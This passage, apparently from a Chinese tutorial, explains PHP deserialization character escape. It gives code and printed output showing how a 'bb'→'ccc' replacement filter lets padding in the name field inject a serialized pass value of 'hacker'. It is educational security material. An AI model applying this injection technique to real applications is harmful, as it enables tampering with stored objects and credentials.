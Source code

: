 ```php
```

可以看到序列化字符串是以`;}`来结尾，假若将这个加入序列化的字符串中，就会导致序列化的字符串提前闭合结束，丢弃掉后面的内容。

```php
$a = unserialize('O:1:"A":2:{s:4:"name";s:5:"aaaa";s:4:"pass";s:6:"123456";}');
echo $a;
```

这里会出错，原因是因为他会把双引号当做字符串，而下一个是分号，没有闭合导致报错。

假如说上面的代码中`$name = 'aaaabb'`，这时会进行替换，

```php
O:1:"A":2:{s:4:"name";s:6:"aaaaccc";s:4:"pass";s:6:"123456";}
```

而再次反序列化的时候就会出错，末尾的c是读取不到的，这样就形成了一个字符串的逃逸。也就是说每多加一个bb就会逃逸一个字符。那我们将逃逸的字符串的长度填充成我们要反序列化的代码长度的话那就可以控制反序列化的结果以及类里面的变量值了。

假若在name处写一些其他的东西：

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='";s:4:"pass";s:6:"hacker";}';
    public $pass='123456';
}
$AA=new A();
//echo serialize($AA);
//echo '</br>';
$res=filter(serialize($AA));
echo $res;
echo '</br>';
$c=unserialize($res);
print_r($c);

?>
out:
O:1:"A":2:{s:4:"name";s:27:"";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
A Object ( [name] => ";s:4:"pass";s:6:"hacker";} [pass] => 123456 )
```

注意上面27的那个位置，还有就是可以看出pass仍然是123456。

这里主要是没有过滤，看下面的内容（`";s:4:"pass";s:6:"hacker";}`的长度为27）：

```php
class A{
    public $name='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}';
    public $pass='123456';
}

out:
O:1:"A":2:{s:4:"name";s:81:"ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}

A Object ( 
	[name] => ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc 
	[pass] => hacker )
```

